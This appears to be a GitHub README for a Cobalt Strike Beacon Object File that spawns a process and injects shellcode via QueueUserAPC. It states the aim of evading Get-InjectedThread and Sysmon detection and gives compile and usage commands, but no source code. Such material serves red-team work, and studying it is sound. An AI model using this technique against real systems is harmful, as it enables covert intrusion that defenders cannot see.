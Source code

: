 # QueueUserAPC Spawn

A Beacon Object File QueueUserAPC spawn and inject used to bypass Get-InjectedThread and Sysmon.

Spawn a path child process and injects shellcode into it.

# Compile

`x86_64-w64-mingw32-gcc -c qua_spawn.c -o qua_spawn.x64.o`
`i686-w64-mingw32-gcc -c qua_spawn.c -o qua_spawn.x86.o`

# Usage

NOTE: Spawn x86->x86 or x64->x64

Load the CNA script in Cobalt Strike, then the following command will be included:

`qua_spawn PATH Listener` - Inject shellcode created for listener to target PID

`qua_spawn C:\Windows\System32\calc.exe Test` - Example to spawn calc.exe with a listener named Test 

# Credit
Based on Seuro Security Joshua's https://sevrosecurity.com/2020/04/13/process-injection-part-2-queueuserapc/
